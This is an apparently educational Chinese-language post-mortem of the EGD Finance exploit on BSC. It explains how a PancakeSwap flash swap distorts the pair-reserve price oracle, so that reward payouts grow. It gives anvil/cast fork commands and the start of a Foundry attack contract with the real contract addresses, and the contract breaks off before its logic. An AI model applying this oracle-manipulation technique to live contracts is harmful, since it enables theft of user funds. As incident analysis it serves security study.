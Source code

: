 可以在 [代理合约](https://bscscan.com/address/0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370#readProxyContract) 的 Read as Proxy 中点击 pair得到, 其值为 `0xa361433E409Adac1f87CDF133127585F8a93c67d`

或者通过 下面的命令行得到

```
 > anvil -f https://rpc.ankr.com/bsc   --fork-block-number 20245522
 > cast call 0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370 "pair()"
 //0x000000000000000000000000a361433e409adac1f87cdf133127585f8a93c67d
```

在区块链浏览器中可以看到该地址是[Pancake LPs (Cake-LP)](https://bscscan.com/token/0xa361433e409adac1f87cdf133127585f8a93c67d)  (Pancake流动性提供商)

也就是说 `getEGDPrice()`是根据地址0xa361433E409Adac1f87CDF133127585F8a93c67d上的EGD token数量和USDT的数量 (也就是流动性)进行价格计算的. 

当USDT数量远远多于EDG数量时, EDG就能兑换更多的USDT, 也就是EDG更昂贵

相反, 当USDT数量很少时, EDG就兑换更少的USDT, 也就是EDG更便宜.

但我们知道在该[Pancke Swap LPs](https://bscscan.com/address/0xa361433e409adac1f87cdf133127585f8a93c67d#code) 提供了`swap`函数进行借贷操作,  我们可以大量借出USDT, 让EDG变得非常便宜, 那么根据下面的代码, 用户获得的用于奖励的EDG的数量就非常多.

```solidity
//获取当前EGD的价格,并确定发放EDG数量
//EGD越便宜, 获得的EGD数量就越多
rew += quota * 1e18 / getEGDPrice();
```



## 攻击过程

### 操纵EDG/USDT的价格, 让EDG非常便宜

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.10;

import "forge-std/test.sol";

interface IPancakePair {
    function swap(
        uint256 amount0Out,
        uint256 amount1Out,
        address to,
        bytes calldata data
    ) external;
}

interface IEGD_Finance {
    function getEGDPrice() external view returns (uint256);
}

interface IERC20 {
    function transfer(address to, uint256 value) external returns (bool);

    function balanceOf(address owner) external view returns (uint256);
}

//BSC_USDT合约地址
address constant usdt = 0x55d398326f99059fF775485246999027B3197955;
//EGD_Finance合约地址
address constant EGD_Finance = 0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370;
//攻击发生前的区块高度
uint256 constant blockheight = 20245522;

```